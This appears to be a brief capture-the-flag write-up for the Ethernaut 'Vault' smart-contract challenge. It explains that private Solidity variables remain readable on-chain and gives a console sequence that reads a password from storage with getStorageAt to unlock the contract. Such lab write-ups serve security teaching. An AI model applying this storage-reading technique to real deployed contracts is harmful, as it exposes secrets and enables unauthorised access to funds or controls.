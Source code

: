 # Vault

## Description

At first glance, this contract may look safe. The problem is that just because
a variable is private, doesn't mean we can't get to it, it just means we can't
access it from another smart contract. With `web3.eth.getStorageAt()` we can
easily get the password.

## Command Sequence

```
> await contract.locked()
true
> const password = web3.eth.getStorageAt(instance, 1)
> await contract.unlock(password)
> await contract.locked()
false
```
